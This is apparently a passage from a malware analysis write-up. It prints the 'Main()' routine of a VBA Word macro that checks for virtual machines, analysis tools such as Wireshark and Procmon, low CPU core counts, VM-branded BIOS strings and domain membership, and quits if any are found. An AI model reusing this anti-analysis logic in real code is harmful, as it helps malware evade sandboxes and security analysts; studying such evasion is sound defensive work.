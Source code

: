 and in the `Main()`:

```vbnet
    d = False

    If WordBasic.AppCount() < 50 Then
        d = True
    End If

    tns = Array("vmware", "vmtools", "vbox", "process explorer", "processhacker", "procmon", "visual basic", "fiddler", "wireshark")
    bns = Array("virtualbox", "vmware")
    Set ws = GetObject("winmgmts:\\.\root\cimv2")

    Dim names() As String
    ReDim names(WordBasic.AppCount())
    WordBasic.AppGetNames names
    For Each n In names
        For Each tn In tns
            If InStr(LCase(n), tn) > 0 Then
                d = True
            End If
        Next
    Next

    Set qis = ws.ExecQuery("Select * from Win32_Processor", , 48)
    For Each i In qis
            If i.NumberOfCores < 3 Then
                d = True
            End If
    Next

    Set qis = ws.ExecQuery("Select * from Win32_Bios", , 48)
    For Each i In qis
        For Each bn In bns
            If InStr(LCase(i.SMBIOSBIOSVersion), bn) > 0 Then
                d = True
            End If
            If InStr(LCase(i.SerialNumber), bn) > 0 Then
                d = True
            End If
        Next
    Next

    Set qis = ws.ExecQuery("Select * from Win32_ComputerSystem", , 48)
    For Each i In qis
        If i.partOfDomain Then
            d = True
        End If
    Next

    If d Then
        NONONONONONONONONONONONO
        Exit Sub
    End If
```
